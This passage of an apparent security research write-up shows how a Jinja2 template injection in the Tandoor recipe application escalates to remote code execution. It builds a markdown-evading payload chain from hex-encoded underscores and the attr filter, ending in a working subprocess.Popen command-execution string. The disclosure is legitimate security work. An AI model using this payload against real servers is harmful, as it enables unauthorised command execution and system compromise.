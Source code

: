 To exploit the SSTI, we need to create a gadget chain. As a first step for that, we need to be able to access global objects and to recover the `<class 'object'>`. 

However, using the examples from hacktricks, such as `[].__class__` will result in an error.

So let's check (remember, from a black box perspective) what is happening here. When we use `{{ "{{ [].__class__ }}" }}` in order to let Jinja2 to just print `{{ [].__class__ }}` as a string, we see that `__` is being converted to `<strong>`. 

![Tandoor9](/media/2025/01/tandoor9.png)

That's because markdown is allowed as input and being converted to html! This renders a few needed special characters useless.
Among others, we cannot use `_`, `*`, `` ` ``, `[]()`.

However, there is still a way to achieve RCE (as you already know :)):

We can use hexencoded underscores (`\x5f`) if we use Jinja2's `attr` filter.
So instead of `{{ [].__class__ }}` we are using `{{ []|attr('\x5f\x5fclass\x5f\x5f') }}`

![Tandoor10](/media/2025/01/tandoor10.png)

We succesfully accessed the global list object! 


The next step is now to recover `<class 'object'>` with `{{ []|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f') }}`

![Tandoor12](/media/2025/01/tandoor12.png)

Done! That's ez, right? However, when we try to recover all subclasses we receive an error!

![Tandoor13](/media/2025/01/tandoor13.png)

Otherwise, we would have seen a list of all available subclasses. Nonetheless, we can enumerate specific subclasses with `getitem({SUBCLASS_ID})`. Let's do that with the first subclass unsing `{{ []|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(0) }}`

![Tandoor14](/media/2025/01/tandoor14.png)

The `type` subclass is not that exciting, right? But what's exciting is the `subprocess.Popen` subclass, because it allows us to run arbitrary commands on the server! However, there are hundreds if not thousands of subclasses available.

![Tandoor15](/media/2025/01/tandoor15.png)

So let's bruteforce the right id.

![Tandoor16](/media/2025/01/tandoor16.png)

We can see that `subprocess.Popen` has the id 418!

![Tandoor17](/media/2025/01/tandoor17.png)

Now we can use that to create our final payload which we can use to run arbitrary commands on the server: `{{[]|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(418)('whoami',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}`
